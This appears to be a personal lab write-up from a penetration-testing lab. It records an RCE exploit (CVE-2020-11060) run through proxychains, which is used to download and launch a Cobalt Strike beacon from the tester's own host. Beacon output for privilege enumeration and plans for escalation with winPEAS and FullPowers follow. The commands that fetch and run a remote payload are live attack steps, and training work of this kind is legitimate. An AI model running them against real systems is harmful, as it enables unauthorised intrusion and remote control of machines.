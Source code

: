 
was able to get a cobaltstrike beacon with this
![[Pasted image 20240121003822.png]]
`curl -O` outputs the file on the `SOUND` directory
```powershell
[root💀~/SUT/offshore/mgmt01] [10.10.14.39] [2024-01-21 00:14:32] 
 └─╼ # proxychains python3 CVE-2020-11060.py --url 'http://172.16.2.12//sound/mavEnVji.php' --command 'curl -O http://10.10.14.39:8000/http_x64.exe'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[*] Response received from 'http://172.16.2.12//sound/mavEnVji.php':
```
![[Pasted image 20240121003940.png]]
then to execute utilize the `RCE`
```powershell
[root💀~/SUT/offshore/mgmt01] [10.10.14.39] [2024-01-21 00:15:33] 
 └─╼ # proxychains python3 CVE-2020-11060.py --url 'http://172.16.2.12//sound/mavEnVji.php' --command 'http_x64.exe'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
```
![[Pasted image 20240121004041.png]]
ran `execute-assembly /usr/share/peass/winpeas/winPEASx64.exe` and it about cooked the entire beacon.

im probably done for the night but im probably gonna try tomorrow to cobalt strike beacon -> pass session to meterpreter shell -> winpeas -> privesc -> flag probably


ran a `whoami /priv` and identified three enabled privileges.
```powershell
[01/26 16:51:09] beacon> run whoami /priv
[01/26 16:51:09] [*] Tasked beacon to run: whoami /priv
[01/26 16:51:09] [+] host called home, sent: 30 bytes
[01/26 16:51:09] [+] received output:


PRIVILEGES INFORMATION

----------------------



Privilege Name                Description                               State   

============================= ========================================= ========

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
tried utilizing `spoolsystem inject` with a `.cna` script that i found but that didnt work
![[Pasted image 20240126170512.png]]
found this script that looked like it would work considering it prefers being a `network` user which we are
- `https://github.com/itm4n/FullPowers`
